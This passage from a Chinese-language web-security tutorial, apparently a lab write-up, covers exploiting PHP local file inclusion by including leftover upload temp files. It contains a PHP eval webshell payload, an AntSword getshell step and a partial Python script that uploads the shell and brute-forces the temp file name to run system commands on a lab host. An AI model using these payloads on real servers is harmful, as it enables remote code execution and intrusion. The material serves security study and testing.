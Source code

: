 ```
http://192.168.68.119/web/fi/dir.php?file=C:/Windows/
```

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012912d8076af5977e.png)

<a class="reference-link" name="Getshell"></a>**Getshell**

由于我们上传的恶意临时文件没有被删除，那么就可以使用Webshell管理工具蚁剑对`php2EFF.tmp`进行包含利用。

```
C:/Windows/php2EF.tmp  &lt;?php eval($_REQUEST[Qftm])?&gt;
```

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t017b97508bb73b833f.png)

<a class="reference-link" name="%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8-%E6%8A%80%E5%B7%A72"></a>**攻击利用-技巧2**

<a class="reference-link" name="%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3"></a>**暴力破解**

假如没有`dir.php`还能利用吗，答案是可以的，因为我们传入的恶意文件没有被删除，这样我们就可以爆破这个文件的文件名。

在上面的讲述中，我们知道不同的系统默认的临时文件存储路径和方式都不一样
- Linux
Linux临时文件主要存储在`/tmp/`目录下，格式通常是（`/tmp/php[6个随机字符]`）
- windows
Windows临时文件主要存储在`C:/Windows/`目录下，格式通常是（`C:/Windows/php[4个随机字符].tmp`）

对比Linux和Windows来看，Windows需要破解的位数比Linux少，从而Windows会比Linux破解速度快，位数越长所需要耗费的时间就越大。

<a class="reference-link" name="%E6%94%BB%E5%87%BB%E8%BD%BD%E8%8D%B7"></a>**攻击载荷**

编写临时文件生成和暴力破解攻击载荷

```
#python version 2.7

import requests
from io import BytesIO

files = {
  'file': BytesIO('&lt;?php eval($_REQUEST[Qftm]);')
}
url1 = 'http://192.168.68.119/web/fi/index.php?file=php://filter/string.strip_tags/resource=index.php'
r = requests.post(url=url1, files=files, allow_redirects=False)

########################暴力破解模块########################
url2='http://192.168.68.119/web/fi/index.php?file=C:/Windows/php'+{fuzz}+'.tmp&amp;Qftm=system('whoami');'
data = fuzz
print "++++++++++++++++++++++"
print data
print "++++++++++++++++++++++"
########################暴力破解模块########################
```

对于暴力破解模块，可以自己添加多线程模块进行暴力破解，也可以将暴力破解模块拿出来单独进行fuzz，或者比较常用的做法就是将一些fuzz工具的模块拿出来添加到里面稍微改一下接口就可以直接使用。
